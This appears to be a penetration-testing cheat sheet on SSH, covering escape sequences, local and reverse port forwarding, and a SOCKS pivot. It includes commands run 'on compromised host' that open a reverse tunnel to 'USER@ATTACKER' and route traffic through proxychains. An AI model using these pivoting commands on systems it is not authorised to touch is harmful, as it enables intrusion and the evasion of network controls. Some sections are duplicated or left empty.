




# ssh

## SSH Konami Code

Supported escape sequences: 

```text
~. - terminate connection (and any multiplexed sessions) 
~B - send a BREAK to the remote system 
~C - open a command line 
~R - request rekey 
~V/v - decrease/increase verbosity (LogLevel) 
~^Z - suspend ssh 
~# - list forwarded connections 
~& - background ssh (when waiting for connections to terminate) 
~? - this message ~~ - send the escape character by typing it twice
```

### On a remote box \(ssh connection\) :

**ENTER ~C**



### Port forwarding



Bind a connection on our remote attacking machine 





## SSH tunneling

### Local Forwarding

Forward Port 22 from 192.168.99.17 to our local machine port 9005  


```csharp
ssh -l user -p port -N(dont execute remote cmd) -L:8000:127.0.0.1:64297 10.4.4.63(remote_ip)
```

### SSH reverse tunnel \(ie for irc\)

```csharp
ssh -L localhost_PORT:irc.freenode.net:6667 user@owned_server
ssh -L 9001:127.0.0.1:8082 polo@server
```

then

```csharp
irssi -c localhost -p localhost_PORT
```

### On compromised host 

```csharp
ssh -f -N -R 2222:127.0.0.1 USER@ATTACKER
```

### Then, on attacker 

```csharp
ssh -f -N -D 127.0.0.1:1028 -p 2222 owned_user@127.0.0.1
```

### Then configure proxychains.conf

```text
root@kali:~/Documents/# proxychains ssh 10.1.1.1
ProxyChains-3.1 (http://proxychains.sf.net)
```

## No Password

```csharp
ssh -o PasswordAuthentication=no -i arti_rsa user@host
```

## Cipher

### Force a specific cipher

```csharp
ssh -c aes128-ctr username@hostname
```

## Connection hijacking \(old system\)

```text
1. password
2. priv/pub key
3. Certificat Authority key
```

```text
1. password
2. priv/pub key
3. Certificat Authority key
```

`ssh-keygen -lf keys` → check sha256 sum and compare keys

`ssh-keygen -Lf keys` → check certificat \(MUST BE a key signed with a CA\)

Hijack connection \(doesn't work on new linux host\)



